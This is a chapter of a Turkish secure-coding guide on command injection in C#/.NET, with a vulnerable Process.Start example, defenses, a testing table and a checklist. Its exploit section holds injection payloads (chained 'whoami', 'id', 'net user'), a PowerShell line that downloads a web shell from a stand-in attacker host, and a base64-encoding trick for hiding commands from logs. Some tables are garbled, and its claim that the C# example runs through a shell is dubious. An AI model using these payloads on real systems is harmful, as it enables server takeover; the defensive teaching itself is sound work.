 # 13. Komut Enjeksiyonu (Command Injection)

## 13.1 Komut Enjeksiyonu Nedir?

Komut enjeksiyonu, bir uygulamanın kullanıcıdan aldığı veriyi sistem komutlarında filtrelemeden kullanması sonucu, saldırganın işletim sistemine komut enjekte etmesine imkân veren bir güvenlik açığıdır.

Uygulama tarafından çalıştırılan komutlar:

* Windows'ta `cmd.exe` veya `powershell.exe`
* Linux'ta `sh`, `bash` gibi shell’ler üzerinden yürütülür.

Saldırgan, komut içine kendi payload’larını ekleyerek:

* Dosya sistemine erişebilir
* Yetkili komutlar çalıştırabilir
* Uygulama sunucusunda tam kontrol elde edebilir

---

## 13.2 Tehlikeli Kullanım Örnekleri

```csharp
string host = Request.Query["ip"];
Process.Start("ping", host);
```

Bu örnekte saldırgan `ip` parametresine aşağıdaki gibi bir payload verebilir:

```
127.0.0.1 && whoami
```

Bu durumda hem ping komutu çalışır hem de `whoami` komutu da shell üzerinden yürütülür.

---

## 13.3 Hedeflenen Komutlar

| Komut          | Amaç                                            |
| -------------- | ----------------------------------------------- |
| `whoami`       | Hangi kullanıcıyla çalıştığını görmek           |
| `dir` / `ls`   | Dosya sistemi içeriğini listelemek              |
| `curl`, `wget` | Dış sunucudan dosya indirmek                    |
| `powershell`   | PowerShell üzerinden zararlı script çalıştırmak |
| `net user`     | Windows kullanıcı hesaplarını yönetmek          |
| `rm`, `del`    | Dosya silmek                                    |

---

## 13.4 Windows ve Linux Arasındaki Fark

| Özellik       | Windows                     | Linux                  |               |               |
| ------------- | --------------------------- | ---------------------- | ------------- | ------------- |
| Shell         | `cmd.exe`, `powershell.exe` | `/bin/sh`, `/bin/bash` |               |               |
| Zincirleme    | `&&`, \`                    | `, `&\`                | `&&`, `;`, \` | `, `\$(...)\` |
| Script        | `.bat`, `.ps1`              | `.sh`, bash            |               |               |
| Örnek Payload | `127.0.0.1 && net user`     | `127.0.0.1; id`        |               |               |

---

## 13.5 Güvenli Kodlama Stratejileri

### 13.5.1 Girdi Doğrulama

* Parametrelerin whitelist ile sınırlandırılması
* Regex kullanılarak karakter setinin kısıtlanması

```csharp
if (!Regex.IsMatch(ip, @"^\d{1,3}(\.\d{1,3}){3}$"))
    return BadRequest("Geçersiz IP");
```

### 13.5.2 Komut Çalıştırmaktan Kaçınmak

Eğer aynı işlevi doğrudan C# ile yapabiliyorsanız, `Process.Start()` yerine native .NET API’lerini tercih edin.

### 13.5.3 Komut Ayrıştırma

Bazı durumlarda `ProcessStartInfo` kullanılarak shell’in doğrudan kullanılmaması sağlanabilir:

```csharp
var psi = new ProcessStartInfo("ping")
{
    Arguments = ip,
    UseShellExecute = false
};
Process.Start(psi);
```

Shell yerine doğrudan binary çalıştırıldığında zincirleme komutlar yorumlanmaz.

---

## 13.6 Exploit Senaryosu

### Örnek 1 – Basit Komut Zinciri

```http
GET /ping?ip=127.0.0.1&&dir
```

### Örnek 2 – Dış Sunucudan Web Shell İndirme

```
127.0.0.1 && powershell -c "Invoke-WebRequest http://attacker/shell.ps1 -OutFile shell.ps1"
```

### Örnek 3 – Base64 ile Shell Komutu Gizleme

```powershell
powershell -enc [Base64EncodedCommand]
```

Bu teknik ile log'larda komut gizlenebilir.

---

## 13.7 Gerçek Dünya Örneği

**CVE-2021-41773 – Apache Path Traversal + RCE**

HTTP request üzerinden gelen yol ifadesi, shell'de bir komut olarak çalıştırılıyordu. Path traversal ile birlikte gelen input doğrudan shell'e veriliyordu. `mod_cgi` modülü aktiftir ve komut injection ile RCE'ye dönüşüyordu.

---

## 13.8 Güvenlik Testi Önerileri

| Teknik                 | Açıklama                                         |                        |
| ---------------------- | ------------------------------------------------ | ---------------------- |
| Payload zincirleme     | `&& whoami`, `; ls` gibi komutlar                |                        |
| Shell metakarakterleri | \`                                               | `, `>`, `&`, `` ` \`\` |
| Uzun input             | Komut sınırlarını zorlamak                       |                        |
| Blind RCE              | Out-of-band kanallar kullanarak (DNS, HTTP ping) |                        |
| `time-based` test      | `sleep 5` ile delay ölçümü yapmak                |                        |

---

## 13.9 Güvenli Alternatifler

| İşlem           | Tehlikeli Yöntem            | Güvenli Yöntem         |
| --------------- | --------------------------- | ---------------------- |
| Sunucuya ping   | `Process.Start("ping", ip)` | .NET Socket bağlantısı |
| Dosya listeleme | `dir`, `ls`                 | `Directory.GetFiles()` |
| HTTP istek      | `curl`, `wget`              | `HttpClient` API       |

---

## 13.10 Koruma Checklist

* [ ] Kullanıcı girdisi sistem komutlarında kullanılıyor mu?
* [ ] Shell metakarakterleri (`|`, `;`, `&`) input içinde kontrol ediliyor mu?
* [ ] Komutlar sabit mi, yoksa girdi ile şekilleniyor mu?
* [ ] Regex veya whitelist ile parametre doğrulama var mı?
* [ ] Shell yerine doğrudan binary çağırımı yapılıyor mu?
* [ ] Log kayıtları komutları maskeliyor mu?

Komut enjeksiyonu, doğru filtreleme yapılmayan tüm sistem çağrılarında sessizce var olabilir. Özellikle saldırganın shell metakarakterleriyle zincirleme komutlar çalıştırmasına olanak tanıyorsa, saldırı etkisi büyük olur. En güvenli yöntem, dışarıdan gelen verileri shell'e hiç taşımamaktır. Aksi takdirde sıkı bir input doğrulama ve shell dışı çalışma zorunluluktur.
